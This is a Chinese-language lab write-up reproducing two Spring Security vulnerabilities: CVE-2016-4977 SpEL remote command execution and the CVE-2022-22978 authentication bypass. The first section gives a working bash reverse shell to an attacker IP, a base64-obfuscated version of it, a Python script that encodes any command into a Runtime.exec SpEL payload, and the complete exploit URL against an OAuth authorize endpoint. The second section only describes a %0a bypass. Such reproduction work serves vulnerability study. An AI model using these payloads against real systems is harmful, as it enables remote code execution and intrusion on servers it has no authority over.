

# Spring-远程命令执行

> CVE-2016-4977	

### 环境搭建



- 靶机:`192.168.2.254`
- 攻击机:`192.168.2.13`

### 漏洞复现

- poc

```bash
bash -i >& /dev/tcp/192.168.2.13/4444 0>&1
#构造poc,https://ares-x.com/tools/runtime-exec
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}
```

- 对poc进行编码

```py
# 执行下面的代码,输入构造好的poc
message = input('Enter message to encode:')
poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])
for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 
poc += ')}'
print(poc)
```

- 最终payload

```java
${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(70)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(82)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(81)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(80)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}
```

```http
http://靶机IP:8080/oauth/authorize?response_type=执行结果&client_id=acme&scope=openid&redirect_uri=http://test
```

```
http://192.168.2.254:8080/oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(70)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(82)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(81)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(80)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}&client_id=acme&scope=openid&redirect_uri=http://test
```


- 反弹成功


### 漏洞原理

- `spring security oauth` 是为spring框架提供安全认证支持的一个模块,在其使用`whitelabel views`处理错误时,由于使用了`spring expression language`攻击者可以在被授权的情况下通过构造恶意参数来远程执行命令

****

# spring-身份验证绕过

> CVE-2022-22978

### 环境准备


- 靶机:`192.168.2.254`

### 漏洞复现


- 点击`/amdin`,发现非法访问


- 使用`%0a`绕过


### 漏洞原理

- 在`Spring Security`中使用`RegexRequestMatcher`且规则中包含带`点号`的`正则表达式`时，攻击者可以通过构造恶意数据包绕过身份认证
